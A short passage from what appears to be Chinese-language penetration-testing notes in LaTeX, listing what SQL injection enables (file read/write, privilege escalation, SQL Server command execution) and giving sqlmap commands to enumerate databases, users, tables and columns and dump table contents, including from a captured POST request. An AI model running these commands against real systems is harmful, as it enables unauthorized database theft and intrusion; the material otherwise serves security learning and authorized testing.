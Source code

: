 \subsection{注入的功效}
\begin{itemize}
    \item 文件读写。INTO\ OUTFILE、DUMPFILE、load\_file()。
    \item 提权。添加权限、添加用户。
    \item 文件读取。
    \item 数据库控制。
    \item SQL\ SERVER中系统命令执行。
\end{itemize}

\subsection{sqlmap}
使用\href{https://github.com/sqlmapproject/sqlmap}{sqlmap}可以直接注入。若注入点在参数中，可以直接:
\begin{lstlisting}
python sqlmap.py http://target.com?id=1
sql选项:
./sqlmap.py -u "注入地址" --dbs // 列举数据库
./sqlmap.py -u "注入地址" --current-db // 当前数据库
./sqlmap.py -u "注入地址" --users // 列数据库用户
./sqlmap.py -u "注入地址" --current-user // 当前用户
./sqlmap.py -u "注入地址" --tables -D "数据库" // 列举数据库的表名
./sqlmap.py -u "注入地址" --columns -T "表名" -D "数据库" // 获取表的列名
./sqlmap.py -u "注入地址" --dump -C "字段,字段" -T "表名" -D "数据库" // 获取表中的数据，包含列，就是脱裤
\end{lstlisting}
若注入点在POST请求中，可以用burp抓包后把请求包保存下来，然后直接:
\begin{lstlisting}
python sqlmap.py -r "post.txt" -p [ArgName] --[option]
\end{lstlisting}

\section{任意文件读取}